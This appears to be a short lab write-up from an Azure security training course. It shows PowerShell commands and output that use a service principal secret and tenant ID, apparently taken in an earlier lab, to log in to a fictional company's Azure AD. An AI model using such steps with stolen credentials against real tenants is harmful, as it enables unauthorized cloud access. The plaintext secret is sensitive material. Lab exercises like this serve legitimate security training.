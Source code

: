 # Attack Lab 11

Using the pharmacorp tenant identifier and credentials obtained on the attack lab 4, it's possible abuse of the credentials in Azure AD:

```
Import-Module C:\AzAppsec\Tools\AzureAD\AzureAD\2.0.2.140\AzureAD.psd1
$password= ConvertTo-SecureString '~9j8Q~f339gnUfSBxSO5yuQXM6ztfCBL8LPjXa3I' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('7e7730b1-29ab-4adf-bb20-7ae61987d01f', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant e0f999c1-86ee-47a0-bfd5-18470154b7cd
WARNING: The provided service principal secret will be included in the 'AzureRmContext.json' file found in the user
profile ( C:\Users\studentuser107\.Azure ). Please ensure that this directory has appropriate protections.

Account                              SubscriptionName TenantId                             Environment
-------                              ---------------- --------                             -----------
7e7730b1-29ab-4adf-bb20-7ae61987d01f                  e0f999c1-86ee-47a0-bfd5-18470154b7cd AzureCloud

```

